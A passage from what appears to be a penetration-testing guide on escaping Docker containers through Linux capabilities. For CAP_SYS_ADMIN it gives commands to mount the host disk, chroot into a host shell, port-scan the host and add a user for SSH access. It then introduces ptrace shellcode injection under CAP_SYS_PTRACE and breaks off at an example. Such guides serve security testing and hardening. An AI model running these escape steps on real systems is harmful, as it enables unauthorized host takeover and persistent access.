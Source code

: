 Inside the previous output you can see that the SYS\_ADMIN capability is enabled.

* **Mount**

This allows the docker container to **mount the host disk and access it freely**:

```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```

* **Full access**

In the previous method we managed to access the docker host disk.\
In case you find that the host is running an **ssh** server, you could **create a user inside the docker host** disk and access it via SSH:

```bash
#Like in the example before, the first step is to moun the dosker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```

## CAP\_SYS\_PTRACE

**This means that you can escape the container by injecting a shellcode inside some process running inside the host.** To access processes running inside the host the container needs to be run at least with **`--pid=host`**.

[**CAP\_SYS\_PTRACE**](https://man7.org/linux/man-pages/man7/capabilities.7.html) allows to use `ptrace(2)` and recently introduced cross memory attach system calls such as `process_vm_readv(2)` and `process_vm_writev(2)`. If this capability is granted and the `ptrace(2)` system call itself is not blocked by a seccomp filter, this will allow an attacker to bypass other seccomp restrictions, see [PoC for bypassing seccomp if ptrace is allowed](https://gist.github.com/thejh/8346f47e359adecd1d53) or the **following PoC**:

**Example with binary**

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
```
